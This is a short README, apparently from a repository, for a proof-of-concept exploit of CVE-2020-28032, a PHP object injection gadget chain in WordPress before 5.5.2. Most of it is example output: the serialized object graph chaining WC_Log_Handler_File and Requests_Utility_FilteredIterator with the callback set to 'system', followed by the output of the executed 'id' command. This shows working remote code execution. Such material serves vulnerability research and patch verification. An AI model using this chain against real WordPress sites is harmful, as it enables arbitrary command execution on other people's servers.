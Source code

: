 # CVE-2020-28032_PoC
PoC for CVE-2020-28032 (It's just a POP chain in WordPress &lt; 5.5.2 for exploiting PHP Object Injection)
## Example output
```
nth347@ubuntu:~$ php CVE-2020-28032_PoC.php 
WC_Log_Handler_File Object
(
    [handles:protected] => Requests_Utility_FilteredIterator Object
        (
            [callback:protected] => system
            [storage:ArrayIterator:private] => Array
                (
                    [0] => id
                )

        )

)
uid=1000(nth347) gid=1000(nth347) groups=1000(nth347),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)
```
